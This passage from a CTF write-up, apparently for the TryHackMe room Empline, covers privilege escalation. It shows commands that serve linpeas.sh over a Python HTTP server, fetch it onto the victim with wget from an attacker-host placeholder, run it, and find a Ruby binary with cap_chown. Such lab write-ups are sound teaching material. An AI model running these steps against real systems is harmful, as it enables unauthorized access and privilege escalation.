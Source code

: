 ## 3- Privilege Escalation

Now we have the user file, its time to get the root!

First of all I tried the classic `sudo -l` technique but couldn’t find anything.

![Untitled](Empline%2003dc209133254172aa5afcd3e291e1cd/Untitled%2012.png)

Now after that I checked for SUIDs and found nothing again. Now I transported [linpeas.sh](http://linpeas.sh) to the victim system. 

- Step 1 : Save the file and save it in a file.

```bash
nano linpeas.sh
```

- Step 2 : Set up a python HTTP server.

```bash
python2 -m SimpleHTTPServer 8081
```

- Step 3 : Download the file in the victim system.

```bash
wget http://<ip>:8081/linpeas.sh
```

- Step 4 : Give permissions of file.

```bash
chmod +x linpeas.sh
```

- Step 5 : Run the file!

```bash
./linpeas.sh
```

And after the script finished I found this. 

```bash
Files with capabilities:
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/local/bin/ruby = cap_chown+ep
```

Here we can see that ruby is a file with capabilities so I instantly searched for `ruby` on GTFOBins.

![Untitled](https://github.com/3J0SKA/THM-WriteUps/blob/main/Empline/Images/Untitled%2013.png)
